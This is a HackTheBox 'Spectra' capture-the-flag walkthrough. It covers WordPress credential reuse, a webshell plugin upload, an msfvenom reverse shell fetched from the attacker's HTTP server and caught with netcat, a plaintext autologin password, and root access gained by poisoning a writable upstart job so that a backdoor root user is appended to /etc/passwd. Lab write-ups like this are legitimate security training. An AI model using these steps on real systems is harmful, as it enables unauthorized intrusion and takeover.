









---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - ChromeOS
  - autologin
  - credentials-reuse
  - hardcoded-credentials
  - initctl-privesc
  - insecure-file-permissions
  - wordpress
  - wordpress-custom-plugin
  - Linux
---
## Introduction

>[!summary]
>**Spectra** is an easy difficulty box based on **ChromeOS**. The target runs a web server exposing a **testing version of wordpress** that **leaks mysql credentials**. **Password reuse** allows to get access to the **admin area** of the main wordpress directory, allowing to **upload a malicious plugin** and obtain a low privileged access to the machine. Local enumeration allowed then to find **readable autologin credentials** providing an access as katie, who is member of *developers* group and is allowed to start and stop jobs through the initctl command with high privileges. Because some jobs have **insecure file permissions** it was possible to poison one of those insecure .conf file and execute arbitrary command with high privileges, getting access as root.

### Improved skills:

- Password Hunting
- Basic of Wordpress hacking
- ChromeOS

### Used tools:

- nmap
- gobuster
- wpscan
- msfvenom

---

## Enumeration

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ sudo nmap -p- 10.10.10.229 -sS -Pn -v
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

Enumerated all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ sudo nmap -p22,80,3306 10.10.10.229 -sV -Pn -sT -sC -A -oN scans/open-tcp-ports.txt
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
```

Nmap discovered three open ports: an ssh service running on port 22, an nginx web server running on port 80 and a mysql service running on port 3306. Because usually SSH offers a minor attack surface respect the other services, target enumeration started from the mysql and http services.

Enumerated port 80 using a web browser and discovered the machine domain name:



Added dns to /etc/hosts file:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ sudo nano /etc/hosts
...
10.10.10.229    spectra.htb
```

Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/scans]
└─$ gobuster dir -u http://10.10.10.229 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o p80-direcotires.txt
...
/main                 (Status: 301) [Size: 169] [--> http://10.10.10.229/main/]
/testing              (Status: 301) [Size: 169] [--> http://10.10.10.229/testing/]

┌──(kali㉿kali)-[~/…/HTB/box/Spectra/scans]
└─$ gobuster dir -u http://10.10.10.229 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o p80-files.txt
...
/index.html           (Status: 200) [Size: 283]
/.                    (Status: 301) [Size: 169] [--> http://10.10.10.229/./]
```

Directory enumeration allowed to discover two different accessible directories (the same showed in the *Issue Tracker* page).

The `/main/` directory, running a wordpress site:



The `/testing/` directory, containing a directory list for a wordpress test installation (probably the one on `/main/`):



Since it was dealing with wordpress, the site was scanned with wpscan. However, anything useful was found:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ wpscan --url http://spectra.htb/main 
...
[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.4
 |  - X-Powered-By: PHP/5.6.40
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
...
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://spectra.htb/main/?feed=rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://spectra.htb/main/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
...
[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <======================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.
```

Looking through the directory list instead allowed to find a **backup** of the `wp-admin.php` file, containing credentials for the `devtest` user:





## Foothold

Trying to access the main administration panel using `devtest` credentials was a failure, however **reusing its password** for the `administrator` user did the job, providing a privileged access to the admin area:



Obtained high privileges over the wordpress installation allowed to upload a malicious plugin and get command execution on the box.

[WebShell/WordPress Shell.php at master · xl7dev/WebShell](https://github.com/xl7dev/WebShell/blob/master/Php/WordPress%20Shell.php)

Uploaded the webshell plugin (zipped php):


Code execution obtained in the context of the `nginx` user:


From there, a reverse shell was generated and hosted using msfvenom and http.server python module :

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.229 - - [08/May/2021 18:16:41] "GET /rs.elf HTTP/1.1" 200 -
```

Then the reverse shell was downloaded and executed in order to get an interactive persistent shell:







```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.229] 44138
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

## Lateral Movement

Local enumeration showed that the target was a **Chrome OS** system:

```bash
uname -a
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
cat /etc/*-release
BUILD_NUMBER=22
CHROMEOVER_BUILD_COMMIT=829e617e7b8467c355f9bd61f87835bfeb0da547
CHROMIUMOS_MANIFEST_COMMIT=38c4f6ca60a47f7fabf0fcd5d6feabf349e3f002
CHROMIUM_BROWSER_COMMIT=ef24d0b3349c2324d18a3f32bc35d14e796aeddc
PIPELINE_TAG=prod
USE_FLAGS=-cros-debug beerover virtualbox
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64

[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 5.4.66+ (neverware@cloudready-builder) (Chromium OS 11.0_pre399094_p20200824-r6 clang version 11.0.0 (/var/tmp/portage/sys-devel/llvm-11.0_pre399094_p20200824-r6/work/llvm-11.0_pre399094_p20200824/clang 83080a294ad7d145d7
58821bcf4354ad0cb7d299)) #1 SMP Tue Dec 22 13:39:49 UTC 2020
```

Looking around for the system, an insecure **autologin configuration file** was discovered. The file referenced to another insecure file, containing clear text credentials:

```bash
cd /opt
ls -al
total 44
drwxr-xr-x 10 root root 4096 Feb  3 16:42 .
drwxr-xr-x 22 root root 4096 Feb  2 14:52 ..
drwxr-xr-x  2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4096 Jan 15 15:55 google
drwxr-xr-x  6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm2
cat autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptc

cd /etc/autologin
ls -al
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
cat passwd
SummerHereWeCome!!
```

The password was then reused to login as `katie`:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ ssh katie@10.10.10.229
Password: 
katie@spectra ~ $ whoami
katie
```

## Privilege Escalation

Enumerating `katie` privileges it was noticed that she was part of the `developers` group and she was able to run `/sbin/initctl` with high privileges:

```bash
katie@spectra /etc/init $ whoami
katie
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)

katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

`initctl` is a tool used to **start and stop jobs**. Available jobs are usually located under `/etc/init/`. Searching for writable .conf file it turned out that **multiple test file** was owned by root but **allowed write permission** to the member of the `developers` group:

```bash
katie@spectra /etc/init $ find /etc/init -gid 20158
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
```

The misconfiguration allowed to **poison one of the test.conf file** and inject a payload which **added a new root user** once the job was started:

```bash
katie@spectra /etc/init $ nano test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
	echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
end script
^X

katie@spectra /etc/init $ sudo /sbin/initctl stop test
initctl: Unknown instance:
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 12820
katie@spectra /etc/init $ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash
```

The malicious `root2` user was finally used to login and obtain high privileges:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ ssh root2@10.10.10.229                                                                                             
Password: evil
spectra ~ # whoami && id && cat /root/root.txt && ifconfig
root
uid=0(root) gid=0(root) groups=0(root)
d44519713b889d5e1f9e536d0c6df2fc
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.229  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:5feb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:5feb  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::e082:c752:1943:1f86  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:5f:eb  txqueuelen 1000  (Ethernet)
        RX packets 18984  bytes 2394803 (2.2 MiB)
        RX errors 0  dropped 131  overruns 0  frame 0
        TX packets 27122  bytes 15426070 (14.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 15717  bytes 6158983 (5.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15717  bytes 6158983 (5.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# Trophy

>[!quote]
>What we know is a drop, what we don't know is an ocean.
>
>\- Isaac Newton

